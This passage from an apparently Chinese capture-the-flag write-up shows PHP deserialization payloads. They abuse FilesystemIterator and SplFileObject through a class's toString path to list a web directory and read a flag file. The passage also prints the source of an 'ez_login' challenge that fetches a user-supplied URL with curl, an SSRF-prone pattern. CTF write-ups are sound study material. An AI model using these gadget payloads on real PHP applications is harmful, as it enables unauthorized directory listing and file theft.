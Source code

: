 其实真正用到的也就是Class A

**payload:**

1.遍历文件

通过遍历，我们知道FilesystemIterator类有toSring方法，可以利用

![](https://img.npfs06.top/20210406225357.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

```php
<?php
class A{
    public $class='FilesystemIterator';
    public $para="/var/www/html";
    public $check;
    }
$o  = new A();
echo serialize($o);

```

2.读取flag文件

通过遍历，我们知道SplFileObject类有toSring方法，可以利用

![](https://img.npfs06.top/20210406225302.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)


```php
<?php
class A
{
    public $class="SplFileObject";
    public $para="/var/www/html/aMaz1ng_y0u_c0Uld_f1nd_F1Ag_hErE/flag.php";
}
$a = new A();
echo serialize($a);
```



# ez_login



```
<?php
    if(!isset($_SESSION)){
        highlight_file(__FILE__);
        die("no session");
    }
    include("./php/check_ip.php");
    error_reporting(0);
    $url = $_GET['url'];
    if(check_inner_ip($url)){
        if($url){
            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, $url);
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, 0);
            curl_setopt($ch, CURLOPT_HEADER, 0);
            curl_setopt($ch, CURLOPT_FOLLOWLOCATION,1);
            $output = curl_exec($ch);
            $result_info = curl_getinfo($ch);
            curl_close($ch);
            }
    }else{
        echo "Your IP is internal yoyoyo";
    }
```
